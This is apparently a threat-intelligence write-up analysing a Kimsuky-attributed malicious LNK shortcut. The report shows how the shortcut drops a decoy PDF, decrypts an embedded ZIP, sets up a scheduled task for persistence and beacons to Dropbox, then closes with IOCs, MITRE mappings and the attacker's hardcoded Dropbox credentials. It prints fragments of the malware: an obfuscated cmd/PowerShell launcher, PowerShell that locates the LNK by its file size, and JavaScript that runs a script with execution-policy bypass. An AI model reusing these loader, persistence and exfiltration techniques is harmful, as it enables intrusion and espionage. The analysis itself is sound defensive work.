










Anatomy of a Malicious LNK: Embedded PDF, XOR ZIP, and Dropbox Beacon

| MD5 | d555e46e36e34da5779145fa8ae8bed9 |
| SHA-1 | 5b03dd1ece961e28febcfcb582ca58edd39da526 |
| SHA-256 | 625f912f4bdb5df0f2584f6b162c8602e5bb756b4853b94a12b9b9dadc25b915 |
| File name | 작물보호제 공급 검토 품목 제안서.lnk (Korean: “Crop Protection Supply Review Item Proposal.lnk”) |
| File info | MS Windows shortcut, Has Description string, Has command line arguments, Icon number=0, Unicoded, HasEnvironment, PreferEnvironmentPath, length=0, window=showminnoactive |
| Attribution | Kimsuky (North Korea 🇰🇵) Learn more |
Executive Summary
This report details a sophisticated, multi-stage downloader distributed through a malicious LNK file that masquerades as a Korean-language agricultural document. The initial infection chain leverages a polyglot LNK that is a valid Windows shortcut that also contains an embedded PDF decoy and an XOR-encrypted ZIP archive. Once executed, the malware silently opens the decoy PDF to maintain the illusion of legitimacy while extracting and deploying a JavaScript based persistence mechanism and a PowerShell beacon that uses Dropbox API as its command-and-control (C2) channel.
The attacker employs layered evasion techniques, including string obfuscation via [char] concatenation in PowerShell, XOR-encoded strings in JavaScript, and a scheduled task that ensures long-term access. The C2 payload exfiltrates system information (OS version, public IP, username, process list) and awaits a remote .bat payload for further post-exploitation activity.
Verdict: Downloader with Dropbox C2, drops and executes arbitrary payloads retrieved from attacker-controlled Dropbox storage.
Initial Vector: The Polyglot LNK
I started my Analysis using the Eric Zimmerman LECmd. Notably, the target file’s creation, modification, and access timestamps are all null, indicating the metadata has likely been timestomped to hinder forensic analysis.

Several of the enabled flags are particularly noteworthy. HasArguments indicates that the shortcut executes a command line rather than simply opening a file, while HasExpString and PreferEnvironmentPath allow environment variables (for example, %TEMP%) to be expanded at runtime, making the shortcut portable across different Windows installations.
The Show Window value is set to SW_SHOWMINNOACTIVE, causing the spawned process to launch minimized without taking focus. This is a common usability trick that reduces the likelihood of the victim noticing a command interpreter or PowerShell window during execution.
The command-line arguments reveal that the shortcut ultimately launches PowerShell through cmd.exe. Instead of referencing powershell.exe directly, it first enumerates the contents of C:\Windows\SysWOW64\WindowsPowerShell\v1.0\ using a for /f loop and then invokes the discovered executable. This indirect invocation is a simple obfuscation technique that can evade naive string-based detections while still executing the embedded PowerShell payload. The script subsequently uses environment variables such as %TEMP% and PowerShell cmdlets including Get-Location and Get-ChildItem, indicating that the payload dynamically resolves paths instead of relying on hardcoded locations.
Luckily enough, i captured the cmd window before it gets closed.

Command line obfuscation
The LNK executes a convoluted command line that locates and invokes PowerShell:
`%windir%\SysWOW64\cmd.exe /k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe /s /b /od') do call %a "<inline PowerShell payload>"`The inline PowerShell payload (extracted from hex dump at offset 0x4E) is a self-referencing script that:

The embedded PowerShell script begins by searching for the original LNK file that launched it.
$oxpoqExt='.lnk';
$oxpoqGetLoc = Get-Location;
if($oxpoqGetLoc -Match 'System32' -or $oxpoqGetLoc -Match 'Program Files') {
$oxpoqGetLoc = '%temp%'
};
$oxpoqMainLnP = Get-ChildItem -Path $oxpoqGetLoc -Recurse *.* -File |
where {$_.extension -eq $oxpoqExt} |
where-object {$_.length -eq 0x00010B96} | # 68502 bytes = exact LNK size
Select-Object -ExpandProperty FullName -First 1;Rather than referencing its own filename, the script recursively searches for a .lnk file whose size is exactly 68,502 bytes (0x10B96). Using the file size as an identifier allows the malware to locate the original shortcut even if it has been renamed or moved to a different directory.
The script also checks its current working directory before beginning the search. If it detects that it is running from System32 or Program Files, it switches the search location to %TEMP% instead. This behavior likely serves as a simple anti-analysis measure, since automated analysis environments and sandboxes often execute samples from system directories rather than from a user’s normal download or temporary folders.
LNK Polyglot file structure
The shortcut is more than a standard Windows LNK file. It is a polyglot, meaning multiple file formats are embedded within a single file. This allows the attackers to package the launcher, a decoy document, and additional payloads together without dropping multiple files at the initial stage.

Stage 2: Decoy PDF Document
The PDF, extracted from offset 0x173A, is a genuine-looking 3-page Korean document discussing crop protection products.
| Metadata Field | Value |
|---|---|
| PDF Version | 1.4 |
| Producer | Hancom PDF 1.3.0.515 |
| Author | (팔) [Korean character] |
| Creator | 한컴오피스 2018 (Hancom Office 2018) |
| Language | ko-KR (Korean) |
| Created | 2026-05-20T12:45:56+09:00 (KST) |
| Modified | 2026-05-20T12:45:56+09:00 (KST) |
| Pages | 3 |

The presence of authentic metadata and subject matter aligns with spear-phishing lures attributed to the Kimsuky group, which often targets South Korean government, agriculture, and defense sectors.
Stage 3: Extracting the encrypted zip file
After opening the decoy, the LNK’s PowerShell script extracts bytes from 0xFF18 to the end of the file, XORs them with 0xBF, and writes the result to %TEMP%. The decrypted content is a valid ZIP containing two files:

| File | Size | Function |
|---|---|---|
pack_free.js | 921 bytes | Persistence. executes advpackx.ps1 via wscript.exe |
advpackx.ps1 | 6,130 bytes | C2 Beacon. communicates with Dropbox API |
The malware then creates two hidden directories:
C:\ProgramData\Intel_R\(hidden + system)C:\ProgramData\vc_lib\(hidden + system)
The naming (Intel_R and vc_lib) mimics legitimate software paths to evade casual inspection.
The notation:
(hidden + system)
means it executes something equivalent to:
attrib +h +s C:\ProgramData\Intel_R
attrib +h +s C:\ProgramData\vc_lib
where:
+h(Hidden): the folder is hidden from Windows Explorer unless “Show hidden files” is enabled.+s(System): marks it as a system folder. By default, Explorer also hides protected operating system files, making the folder even less visible.
Persistence via Scheduled Task
The JavaScript Launcher (pack_free.js)
After extraction, the file is renamed to joy_{first 4 chars of machine UUID}.js and placed in C:\ProgramData\Intel_R\. Its obfuscated logic uses an XOR key of 0x52 to decode critical strings. Deobfuscated, it simply checks for the existence of advpackx.ps1 and executes it with PowerShell:

After deobfuscating the javascript.
function gPop() {
var s = " eliF- ssapyB yciloPnoitucexE- eliforPoN- "; // reversed
return "powershell.exe" + s.split("").reverse().join("");
// Returns: "powershell.exe -NoProfile -ExecutionPolicy Bypass -File "
}
var f = new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject("WScript.Shell");
var p = "C:\\ProgramData\\vc_lib\\advpackx.ps1";
try {
if (f.FileExists(p)) {
sh.Run("powershell.exe -NoProfile -ExecutionPolicy Bypass -File C:\\ProgramData\\vc_lib\\advpackx.ps1", 0, 1);
}
}
// WindowStyle=0 (hidden), bWaitOnReturn=1 (synchronous wait)Scheduled Task Construction
The PowerShell script builds a scheduled task using heavily fragmented cmdlet names to avoid static signatures. The task is named WinSch_{full machine UUID} and is configured as follows:
- Trigger: Once, 1 minute after creation, repeating every 16 minutes indefinitely.
- Action:
wscript.exe /B /NoLogo C:\ProgramData\Intel_R\joy_{shortId}.js - Settings:
AllowStartIfOnBatteriesandDontStopIfGoingOnBatteries.
This task ensures continuous execution even if the original LNK is deleted.
C2 Beacon: Dropbox API Communication (advpackx.ps1)
The PowerShell script is the heart of the malware’s command-and-control. All sensitive strings are constructed via [char] integer concatenation, making them invisible to simple string scanners

Reconstructed Dropbox Endpoints
| Function | Deobfuscated URL | Purpose |
|---|---|---|
UoR() | https://content.dropboxapi.com/2/files/upload | Upload victim data |
DoR() | https://content.dropboxapi.com/2/files/download | Download payload |
RoR() | https://api.dropboxapi.com/2/files/move_v2 | Rename files on Dropbox |
AoR() | https://api.dropboxapi.com/oauth2/token | Refresh OAuth tokens |
As observed here, it issues DNS requests to dropbox servers.

Authentication
The malware uses hardcoded OAuth2 credentials (client_id, client_secret, refresh_token) to obtain an access token. This token is refreshed automatically, granting the attacker persistent access to their Dropbox app folder without re-authentication.
I tried to authenticate but it seems that the malware author disabled the access token, and this has caused the malware to be obselete as it can’t download the next stage payload.
System Reconnaissance & Exfiltration
The gpi() function collects:
- OS version (
[System.Environment]::GetProperty('OSVersion')) - Public IP (via
nslookup myip.opendns.com 208.67.222.220) - Domain\Username (
$env:USERDOMAIN@@$env:USERNAME) - Full process list
The public IP and process list are encrypted using RC4 (key: Se!cure32) and then encoded with a custom Base64 implementation (no padding =). The ciphertext is then uploaded to a Dropbox path like /Agri_{hardware fingerprint}/MM:dd---HH:mm.txt.
Payload Retrieval & Execution
The script downloads a file from the path {victim ID}_cafe on Dropbox, saves it as %TEMP%\cafebucket{RAND}.bat, executes it silently, waits 120 seconds, and then deletes it. To prevent re-download, it renames the source file on Dropbox by appending _buy, a simple “claimed” marker.
As mentioned earlier, the C2 is not working anymore, maybe dropbox took it down or the malware authors disabled it when it got exposed.
Hardware Fingerprinting
The victim ID is generated by hashing four hardware attributes:
$raw = "$cpuSerial|$motherboardSerial|$diskSerial|$biosUUID"
$fingerprint = first 5 bytes of SHA256($raw) # yields a 10-char hex stringThis creates a unique identifier that persists across reinstallation unless the hardware changes significantly.
Complete Attack flow
flowchart TB A["LNK Double-click"] --> B["PowerShell Loader"] subgraph Stage1["Stage 1: Initial Execution"] B --> C["Locate LNK by size"] C --> D["Open decoy PDF"] C --> E["Decrypt embedded ZIP"] E --> F["Extract JS + PS1"] end subgraph Stage2["Stage 2: Persistence"] F --> G["Create hidden directories"] G --> H["Drop payload files"] H --> I["Create scheduled task<br/>WinSch_{UUID}<br/>Every 16 min"] end subgraph Stage3["Stage 3: Beacon"] I --> J["Launch JS -> PS1"] J --> K["Fingerprint machine"] J --> L["OAuth to Dropbox"] J --> M["Upload encrypted system info"] J --> N["Download & execute .bat"] end
Indicators of Compromise (IOCs)
File Hashes
| Hash | sha256 Value |
|---|---|
| LNK | 625f912f4bdb5df0f2584f6b162c8602e5bb756b4853b94a12b9b9dadc25b915 |
| advpackx.ps1 | ab35ca5736ed32538e44e6be5c919cfdcf25350a6f6fb53e5074e4112141b88d |
| pack_free.js | f3c9cba88e1c1a64274700a32b054cec273f88ab02400f4c31009114db3264d8 |
Network
opendns and dropbox are not malicious in themselves, but the malware utilizes them so it’s hard to block.
content.dropboxapi.comapi.dropboxapi.commyip.opendns.com/ IP208.67.222.220
Dropbox Application Credentials
- client_id:
8nkecl76vovy4ox - client_secret:
8l7kce2cgy181aq - refresh_token:
vXhf3ZVJUjMAAAAAAAAAARC__6b7ZY2jvHbd9kkl_74lTAPcGd_E27sNA29Upn8b
File System
C:\ProgramData\Intel_R\joy_*.jsC:\ProgramData\vc_lib\advpackx.ps1%TEMP%\cafebucket*.bat
Persistence
- Task name:
WinSch_{full UUID} - Command:
wscript.exe /B /NoLogo "C:\ProgramData\Intel_R\joy_{...}.js" - Repetition: every 16 minutes
MITRE ATT&CK Mapping
| Tactic | Technique ID | Technique Name | Evidence |
|---|---|---|---|
| Initial Access | T1566.001 | Phishing: Spearphishing Attachment | Korean-lured .lnk delivered as agricultural document |
| Execution | T1204.002 | User Execution: Malicious File | Victim double-clicks LNK |
| Execution | T1059.001 | Command and Scripting Interpreter: PowerShell | Inline PowerShell payload invoked via cmd.exe |
| Execution | T1059.007 | Command and Scripting Interpreter: JavaScript | pack_free.js executed via wscript.exe |
| Defense Evasion | T1027.012 | Obfuscated Files or Information: LNK Icon Smuggling | Icon spoofed to mimic a document |
| Defense Evasion | T1027.009 | Obfuscated Files or Information: Embedded Payloads | PDF + XOR’d ZIP appended within the LNK polyglot |
| Defense Evasion | T1027.013 | Obfuscated Files or Information: Encrypted/Encoded File | ZIP archive XOR-encrypted (0xBF) at offset 0xFF18 |
| Defense Evasion | T1027.010 | Obfuscated Files or Information: Command Obfuscation | for /f indirection to locate powershell.exe; reversed-string trick in JS; [char] concatenation in PS1 |
| Defense Evasion | T1140 | Deobfuscate/Decode Files or Information | Runtime XOR decode of ZIP (0xBF) and JS strings (0x52) |
| Defense Evasion | T1036.008 | Masquerading: Masquerade File Type | LNK disguised as Korean-language proposal document |
| Defense Evasion | T1036.005 | Masquerading: Match Legitimate Name or Location | Hidden dirs named Intel_R, vc_lib |
| Defense Evasion | T1564.001 | Hide Artifacts: Hidden Files and Directories | attrib +h +s on C2 directories |
| Defense Evasion | T1070.004 | Indicator Removal: File Deletion | .bat payload deleted after 120s execution wait |
| Persistence | T1053.005 | Scheduled Task/Job: Scheduled Task | WinSch_{UUID} task, every 16 min |
| Discovery | T1083 | File and Directory Discovery | Recursive search for the 68,502-byte LNK by file size |
| Discovery | T1082 | System Information Discovery | OS version via [System.Environment]::GetProperty('OSVersion') |
| Discovery | T1033 | System Owner/User Discovery | $env:USERDOMAIN@@$env:USERNAME |
| Discovery | T1057 | Process Discovery | Full running process list collected |
| Discovery | T1016.001 | System Network Configuration Discovery: Internet Connection Discovery | nslookup myip.opendns.com for public IP |
| Collection | T1560.003 | Archive Collected Data: Archive via Custom Method | RC4 (key Se!cure32) + custom no-padding Base64 applied to exfil data before upload |
| Exfiltration | T1041 | Exfiltration Over C2 Channel | Uploaded to Dropbox API. same channel used for C2 |
| Command and Control | T1102.002 | Web Service: Bidirectional Communication | Dropbox API used for both upload and download of C2 data/payloads |
| Command and Control | T1071.001 | Application Layer Protocol: Web Protocols | HTTPS to dropboxapi.com endpoints |
Attribution
While no single indicator in this sample is definitive proof of authorship, several converging factors support a moderate-confidence attribution to Kimsuky, a North Korea aligned cyber espionage group tracked by MITRE ATT&CK as G0094 and also known as APT43, Black Banshee, Velvet Chollima, and THALLIUM. Kimsuky has been active since at least 2013 and is primarily focused on intelligence collection against South Korea, with secondary targeting of the United States, Japan, and Europe (SOCRadar1).
Lure content and language. The initial LNK masquerades as a Korean language agricultural procurement document, and the embedded decoy PDF was authored in Hancom Office 2018 (ko-KR locale), The dominant office suite in South Korean government and enterprise environments. This lines up with Kimsuky’s established pattern of building highly tailored, sector-specific lures (Aryaka Threat Research Lab2) rather than generic phishing content; the group is known for impersonating legitimate entities and using social engineering to get victims to open malicious attachments or divulge credentials (Huntress3). CISA’s joint advisory on Kimsuky similarly notes that the group tailors its phishing content to its intelligence collection targets, historically including South Korean government, agriculture-adjacent policy, and think-tank sectors (CISA AA20-301A4) .
LNK-based delivery. Kimsuky has increasingly pivoted toward malicious .lnk attachments as an initial-access vector over more traditional macro-laden Office documents, a shift documented across several independent write-ups in 2026 alone. AhnLab’s ASEC has tracked this evolution from a simple LNK to PowerShell to BAT chain toward more layered LNK to PowerShell to XML/VBS/PS1/BAT sequences, consistent with the multi-stage structure seen in this sample (LNK to inline PowerShell to JS to PS1) (gbhackers.com summary of ASEC reporting5; cybersecuritynews.com6). LNK abuse for icon spoofing and payload smuggling is also called out as a recurring Kimsuky technique in operational-blueprint reporting (Aryaka Threat Research Lab2).
Dropbox as C2/exfiltration infrastructure. The use of the Dropbox API for both payload retrieval and data exfiltration rather than a dedicated C2 server, closely mirrors other recent Kimsuky campaigns. Independent reporting on parallel LNK based intrusion chains describes Kimsuky uploading stolen host data to Dropbox with structured filenames and pulling second stage .bat/archive payloads from attacker-controlled Dropbox paths before renaming or marking them as “claimed”. This closely matches the _buy rename-after-download behavior observed in this sample (DEV Community / ASEC writeup7 ; SOC Prime8). Enki WhiteHat’s infrastructure analysis separately documents Kimsuky operating roughly a dozen distinct Dropbox URLs for payload distribution alongside GitHub-based C2 in the same period, indicating Dropbox abuse is a standing part of the group’s toolkit rather than a one-off (Enki WhiteHat9).
Scheduled-task persistence and layered obfuscation. The WinSch_{UUID}-style scheduled task, fragmented cmdlet construction, XOR/[char]-based string obfuscation, and staged execution through disguised system-like folder names (Intel_R, vc_lib) are all consistent with TTPs cataloged for the group, including scheduled-task persistence disguised under benign-sounding names and heavy use of custom RC4/XOR encoding for exfiltrated data (Picus Security10).
Caveats. Attribution here rests on TTP and infrastructure-pattern overlap rather than a hard link such as reused C2 infrastructure, shared code artifacts, or campaign-specific tooling unique to a confirmed Kimsuky cluster. Cloud-abuse-for-C2 (Dropbox, GitHub, etc.) and LNK polyglots are increasingly common across multiple DPRK-nexus clusters, and TTP convergence between Kimsuky and other loosely affiliated North Korean units has been noted elsewhere. I’m therefore labeling this “suspected Kimsuky” rather than confirmed, consistent with how the sample is captioned throughout this report.
Sources
Footnotes
-
Aryaka Threat Research Lab: The Operational Blueprint of Kimsuky for Cyber Espionage ↩ ↩2
-
CISA AA20-301A: North Korean Advanced Persistent Threat Focus: Kimsuky ↩
-
Kimsuky Deploys Malicious LNK Files to Deliver Python-Based Backdoor in Multi-Stage Attack ↩
-
SOC Prime: Malicious LNK Files Distributing a Python-Based Backdoor and Changes in Distribution Techniques (Kimsuky Group) ↩
-
Enki WhiteHat: Dissecting Kimsuky’s Attacks on South Korea: In-Depth Analysis of GitHub-Based Malicious Infrastructure ↩
-
Picus Security: Exposing the steps of the kimsuky apt group ↩